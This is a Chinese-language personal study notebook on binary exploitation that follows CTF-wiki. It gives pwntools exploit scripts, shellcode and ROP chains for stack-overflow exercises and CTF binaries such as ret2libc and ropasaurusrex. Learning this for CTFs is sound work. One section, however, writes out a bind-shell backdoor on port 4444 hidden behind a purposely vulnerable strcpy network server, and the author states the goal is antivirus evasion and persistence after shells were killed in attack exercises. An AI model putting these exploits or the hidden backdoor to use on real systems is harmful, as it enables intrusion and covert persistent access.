


# PWN

计划是先跟着ctf-wiki走，期间也做做攻防世界的初始题。

[TOC]

## 栈溢出

​       栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是：

- 程序必须向栈上写入数据。

- 写入的数据大小没有被良好地控制。

  利用关键点：**寻找危险函数**、**确认填充长度**

### 基本ROP

#### 1、栈溢出example

```C
#include <stdio.h>
#include <string.h>

void success(void)
{
    puts("You Hava already controlled it.");
}

void vulnerable(void)
{
    char s[12];

    gets(s);
    puts(s);

    return;
}

int main(int argc, char **argv)
{
    vulnerable();
    return 0;
}
```

可以看到虽然定义了success函数，但是并没有真正使用。

```
gcc -m32 -fno-stack-protector stack_example.c -no-pie -o stack_example
```

因为IDA的版权原因，下面用的是ghidra。

success函数位置，即后面要覆盖ret的位置


查看gets的参数到ebp的距离为0x14，填充字符长度为0x14 + 0x4


```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x080491b6
## 构造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 2、ret2text

ret2text 即控制程序执行程序本身已有的的代码 (即`.text`段中的代码) 。

main函数中的gets是危险函数


未调用的secure函数中存在system(/bin/sh)，ret覆盖地址为0x0804863a


gets的参数这个只有相对于esp的位置，通过gef调试确认此时的ebp地址


```
gdb ./ret2text
# 在gets函数处下断点
b *0x080486ae
r
```


填充长度=ebp - esp - 0x16 + 0x4 = 0x70

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./ret2text')
success_addr = 0x804863a
## 构造payload
payload = b'a' * 0x6c + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 3、ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**通常情况下，shellcode 需要我们自行编写，即此时我们需要自行向内存中填充一些可执行的代码**。


同样的危险函数gets，不过下面copy了100个字符到buf2，可以作为shellcode写入的位置。整个操作流程应该是将shellcode写入buf2处，再通过gets函数将ret地址覆盖到buf2，获取程序控制权。


查看bss段（不知道怎么根据变量查看所属段）发现buf属于bss段，bss段起止位置在0x804a040-0x804a0e3


通过gdb vmmap查看bss段的可执行情况，发现可读可写不可执行，应该就是ctfwiki中提到的内核版本原因。


gets处下断点计算填充长度。


在strncpy处下断点，说实话没看出来到底是哪个参数被用给了buf当地址，看了一圈只有0x804a080在bss段内，就它了。


```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

# 计算可得填充字符数位112
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

无可执行权限，执行失败。


#### 4、ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。

`checksec rop`


```
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
```


不存在后门函数，无法写shellcode，通过修改寄存器的值进行系统调用。通过ROPgadget工具寻找可用的片段。

```
pip install capstone
https://github.com/JonathanSalwan/ROPgadget
报错：pkg_resources.ResolutionError: Script 'scripts/ROPgadget' not found in metadata at '/usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info'
解决：cp -r scripts/ /usr/local/lib/python3.8/dist-packages/ROPGadget-7.4.dist-info
```


先压地址再压参数。

```
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop  --string '/bin/sh' 
ROPgadget --binary rop  --only 'int'                 
```


```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```


#### 5、ret2libc1


有/bin/sh存在


在ghidra的import表中发现system


事实上这里system的地址是错的，抱着试试的心态把CTF wiki上的地址0x08048460填进去发现还对了，什么刻舟求剑。

OK，发现地址实际是在注释的XREF交叉引用里。


```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./ret2libc1')
binsh_addr = 0x8048720
system_addr = 0x8048460
## 构造payload
payload = flat([b'a' * 112, system_addr, b'b' * 4, binsh_addr])
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```


#### 6、ret2libc2



相比于上题，这次没有直接搜到字符串sh的位置，system位置在0x8048490


我的想法是把/bin/bash字符串写入栈中，把原地址换成/bin/bash写入的地址即可。（猜错了好像

这段完全没理清楚


据ctfwiki，ret到了gets的位置，但后面的pop_ebx，包括buf2能理解这是想干嘛，但是不理解操作是如何达到该效果的。如112字节溢出将ret覆盖为了gets_plt，此时应该是call了get函数，那pop_ebx和buf2是如何参与后续操作的。


**gets_plt：**gets函数的地址

**system_plt：**system函数的地址

**pop_ebx:** 控制ebx gadget的位置

**buf2：**缓冲区位置

问gpt的时候给我画了这么个堆栈的图，不知道栈顶的buf2是怎么来的。


call了一下ede求助，他说到x86架构上使用的调用约定：先压参数，再压ret，因此对gets_plt来说pop_ebx就是返回地址，而buf2就是参数。恍然大悟的同时也惊讶这payload还挺精致的。

总结一下：思路没有转变过来，对栈的理解不够深入。我没有把pop_ebx当成一个返回地址，而是当成了一个类似主动调用的call，只看到了pop_ebx和buf2的联动，孤立了gets_plt。


#### 7、ret2libc3

checksec开了NX保护。

```
system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。而 libc 在 github 上有人进行收集，如下
https://github.com/niklasb/libc-database
```
涉及到了PLT和GOT的相关知识，做一下记录

https://blog.csdn.net/linyt/article/details/51635768


```
https://saku376.github.io/2021/04/30/%E9%80%9A%E8%BF%87GDB%E8%B0%83%E8%AF%95%E7%90%86%E8%A7%A3GOT%E8%A1%A8%E5%92%8CPLT%E8%A1%A8/
总结来说就是，GOT保存了程序中所要调用的函数的地址，运行一开时其表项为空，会在运行时实时的更新表项。一个符号调用在第一次时会解析出绝对地址更新到GOT中，第二次调用时就直接找到了GOT表项所存储的函数地址直接调用了。
```

试着运行了一下代码，把匹配到的libc到试了一遍都没成功；在libc-database下get还报错，未解决，做一遍代码解读。


通过ELF解析ret2libc3文件结构，并读取文件plt表中puts的位置，got表中main的位置，以及程序运行时的main函数位置。由于要对libc进行泄露，因此必须读got表；为了重复利用漏洞环境，所以puts_plt ret到了main函数中；这里有个疑问是为什么第一个地址用的是puts_plt而不是puts_got或puts本身，猜测可能是防止got表中还没有数据造成运行错误之类。最后泄露出了libc中main函数的位置。


根据泄露出的位置进行LibcSearcher读到libc的基址，并根据相对位置得到system函数和字符串/bin/sh，终了。


#### 8、sniperoj-pwn100-shellcode-x86-64


PIE内存空间随机化。ghidra反编译后是read的栈溢出。


有个小问题是程序开了PIE保护，那反编译是肯定得不出shellcode跳转的地址的，好在代码里print了local18的地址，read的地址也正好是local18。

shellcode长度最大值为0x40-0x10-rbp8-ret8=32，地址为local18 + 0x10 + 8 + 8


学习了在交互中读取字符串的方法。

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
sh = process('./sniperoj-pwn100-shellcode-x86-64')
sh.recvuntil('[')
buf_addr = sh.recvuntil(']', drop=True)
print(buf_addr)
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload = b'A' * (0x10 + 8) + p64(int(buf_addr,16) + 0x10 + 8 + 8)  + shellcode
# 计算可得填充字符数位112
sh.sendlineafter('Now give me your answer : \n', payload)
sh.interactive()
```


#### 突发奇想

最近攻防演练的时候shell天天被杀，那我整个会溢出的代码，溢出时监听端口接受外面的数据，杀毒软件又将如何应对？

我直接让gpt生成了一个回响服务器的代码，由于gets的交互不再适用，因此尝试通过strcpy作为溢出手段，但是直接加在原始代码当中变量有点多了，超出了我对程序的把控，决定再开一个函数进行cpy操作。


周末在家想了一下这么写肯定是行不通的，至少我的水平不足以支持起后续的利用，因为这么写只能调用到system /bin/sh，那这个时候就进行了本地执行的阶段且失去了远程交互的能力，作为后门来讲肯定是不合格的。

后面在尝试的过程中发现有的主机并不能正常执行由-m32编译出来的文件，后续就把这个参数去掉了。最离谱的是，我试着试着发现就linux这种查杀能力，真的对不起我想用栈溢出玩花操作的想法，一个极其普通后门的都检测不出来。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <arpa/inet.h>

#define PORT 4444

void backdoor() {
    int sockfd, new_sock;
    struct sockaddr_in server_addr, client_addr;
    socklen_t sin_size;
    char *args[] = {"/bin/sh", NULL};

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        perror("socket");
        exit(1);
    }

    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(PORT);
    server_addr.sin_addr.s_addr = INADDR_ANY;
    memset(&(server_addr.sin_zero), '\0', 8);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1) {
        perror("bind");
        exit(1);
    }

    if (listen(sockfd, 1) == -1) {
        perror("listen");
        exit(1);
    }

    sin_size = sizeof(struct sockaddr_in);
    if ((new_sock = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size)) == -1) {
        perror("accept");
        exit(1);
    }

    dup2(new_sock, 0);
    dup2(new_sock, 1);
    dup2(new_sock, 2);

    execve("/bin/sh", args, NULL);
}

int main() {
    backdoor();
    return 0;
}
```


在此基础上再试试栈溢出的shell。

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define PORT 6666
#define BUFFER_SIZE 1024

void error_handling(const char *message) {
    perror(message);
    exit(1);
}

void backdoor() {
    int sockfd, new_sock;
    struct sockaddr_in server_addr, client_addr;
    socklen_t sin_size;
    char *args[] = {"/bin/sh", NULL};

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        perror("socket");
        exit(1);
    }

    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(4444);
    server_addr.sin_addr.s_addr = INADDR_ANY;
    memset(&(server_addr.sin_zero), '\0', 8);

    if (bind(sockfd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1) {
        perror("bind");
        exit(1);
    }

    if (listen(sockfd, 1) == -1) {
        perror("listen");
        exit(1);
    }

    sin_size = sizeof(struct sockaddr_in);
    if ((new_sock = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size)) == -1) {
        perror("accept");
        exit(1);
    }

    dup2(new_sock, 0);
    dup2(new_sock, 1);
    dup2(new_sock, 2);

    execve("/bin/sh", args, NULL);
}

void helloworld(char *buffer) {
    char buffer1[10];
    strcpy(buffer1, buffer);  // 存在缓冲区溢出漏洞
}

int main() {
    int serv_sock, clnt_sock;
    struct sockaddr_in serv_addr, clnt_addr;
    socklen_t clnt_addr_size;
    char buffer[BUFFER_SIZE];

    serv_sock = socket(PF_INET, SOCK_STREAM, 0);
    if (serv_sock == -1) {
        error_handling("socket() error");
    }

    memset(&serv_addr, 0, sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    serv_addr.sin_port = htons(PORT);

    if (bind(serv_sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) == -1) {
        error_handling("bind() error");
    }

    if (listen(serv_sock, 5) == -1) {
        error_handling("listen() error");
    }

    clnt_addr_size = sizeof(clnt_addr);
    clnt_sock = accept(serv_sock, (struct sockaddr*)&clnt_addr, &clnt_addr_size);
    if (clnt_sock == -1) {
        error_handling("accept() error");
    }

    read(clnt_sock, buffer, BUFFER_SIZE);
    helloworld(buffer);
    close(clnt_sock);
    close(serv_sock);
    return 0;
}
```

ghidra反编译后说lea的位置为ebp-0x12，但是拿0x12 + 0x4做offset发现仍然报错，有时候报段错误、有时候报无效指令错误。**success地址为0x08049364**。


没办法只能通过fuzz + gdb硬调了，通过`msf-pattern_create -l 50`生成长50的字符串，看程序crash的时候eip的值是多少，以此推导出正确的偏移量。


可以看到eip的值为**a7Aa**，这四个字符所对应的偏移量为**22**。


综上，exp如下：

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'
host = remote('127.0.0.1', 6666, typ='tcp')
# sh = process('./strcpy2overflow')
success_addr = 0x08049384
# pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
offset = 22
payload = b'A' * offset + p32(success_addr)
host.sendline(payload)
host.close
```

通过缓冲区溢出漏洞调用backdoor函数，完成shell的调用和对本地端口的监听，最终达到免杀和持久化的效果（主要是免杀。


#### 9、train.cs.nctu.edu.tw:ret2libc

填充距离算了下好像是0x20



程序很贴心的给了/bin/sh和puts的地址，利用puts看一下main的got地址


我说为啥写成这样想先receive后send一直运行不了呢，这个地址是一直会变的（废话，libc载进来当然会变）而我并没注意这一点。


因为主机问题，libsearch自带的get更新一直不生效，因此只能手动去解析libc基址以及对应的函数地址，还好我在ctfwiki的项目里翻到了正确的libc版本，总体代码如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher


context.log_level = 'debug'
sh = process('./ret2libc')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
ret2libc_stru = ELF('./ret2libc')
# get plt&got info | static
puts_plt = ret2libc_stru.plt['puts']
libc_start_main_got = ret2libc_stru.got['__libc_start_main']
main = ret2libc_stru.symbols['main']

# dynamic
sh.recvuntil('is ')
binsh_addr = int(sh.recvuntil('\n', drop=True), 16)
print('provide binsh_addr: ' + hex(binsh_addr))
sh.recvuntil('is ')
puts_addr = int(sh.recvuntil('\n', drop=True), 16)
payload = flat([b'A' * 0x20, puts_plt, main, libc_start_main_got])
sh.sendline(payload)
libc_start_main_addr = u32(sh.recv()[0:4])

# libsearch installed failed, instead manually search
# libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
# libc.add_condition('__libc_start_main', libc_start_main_addr)
# libc.load('/lib/i386-linux-gnu/libc.so.6')
system_offset = libc.symbols['system']
puts_offset = libc.symbols['puts']
main_offset = libc.symbols['__libc_start_main']
binsh_offset = next(libc.search(b'/bin/sh'))

# main->libc_base->system binsh
libc_base = libc_start_main_addr - main_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
print('calc binsh_addr: ' + hex(binsh_addr))

payload = flat([b'A' * 0x18, p32(system_addr), p32(0xdeadbeef), p32(binsh_addr)])
sh.sendline(payload)
sh.interactive()
```

这道题的本意是：运行程序之后，会得到puts函数和binsh字符串的位置，然后就可以根据puts函数的位置得到libc的版本以及libc基址，进而得到system函数在程序中加载的位置。不过这里使用的是类似于通解的做法，也记录一下我的理解：

1、通过ELF函数对程序的结构进行解析，记录下的是不变的部分，如puts函数在plt中的**地址**、main函数在got表中的**地址**，由于延时加载的原因这个时候是获取不到这些函数实际在程序中的位置的。

2、和程序进行交互，先获取信息，不过这道题甚至刻意的忽略了它的信息，过；再进行栈溢出，目标是main函数在got表中的**地址对应的值**，即在程序中的地址（因为main函数是肯定运行过了），结构为buffer + put_plt + main + main_got，成功溢出后读取地址。

3、根据libc的main函数的offset确定libc在程序中的基址，再推出要用的`system`和`/bin/sh`在程序的对应位置

4、buffer长度-8（我试了半天没过，想起上一个二次利用的也有这情况，原因不明) + system_addr + random(反正也不返回) + binsh_addr


#### 10、train.cs.nctu.edu.tw: rop

没找到原题，空着。


目标：eax 0xb，ebx binsh_addr


#### 11、2013-PlaidCTF-ropasaurusrex


总体思路是136+4字节溢出，溢出到write函数，ret给read，后面跟三个参数把read_got的真实地址读出来，用96个字符填充read的长度0x100。

但令人悲伤的是我执行没成功，尝试了第二个payload第一段填充减8字节再在后面加上，无效。

```python
from pwn import *
from LibcSearcher import LibcSearcher


context.log_level = 'debug'
sh = process('./ropasaurusrex')
libc = ELF('./libc.so')
ropasaurusrex_stru = ELF('./ropasaurusrex')
# get plt&got info | static
write_plt = ropasaurusrex_stru.plt['write']
read_got = ropasaurusrex_stru.got['read']

sub_080483f4 = 0x080483f4
# dynamic
#sh.recvuntil('is ')
#binsh_addr = int(sh.recvuntil('\n', drop=True), 16)
payload = flat([b'A' * 136, 0xdeadbeaf, write_plt, sub_080483f4, 1, read_got, 4, b'B' * 96])
sh.sendline(payload)
libc_read_addr = u32(sh.recv()[0:4])
print('got addr:' + hex(libc_read_addr))

# libsearch installed failed, instead manually search
# libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
# libc.add_condition('__libc_start_main', libc_start_main_addr)
# libc.load('/lib/i386-linux-gnu/libc.so.6')
read_offset = libc.symbols['read']
system_offset = libc.symbols['system']
main_offset = libc.symbols['__libc_start_main']
binsh_offset = next(libc.search(b'/bin/sh'))

libc_base = libc_read_addr - read_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
print('Get shell!')

payload = flat([b'A' * 136, 0xdeadbeaf, system_addr, 0xdeadbeef, binsh_addr, b'B' * 104])
sh.sendline(payload)
sh.interactive()
```

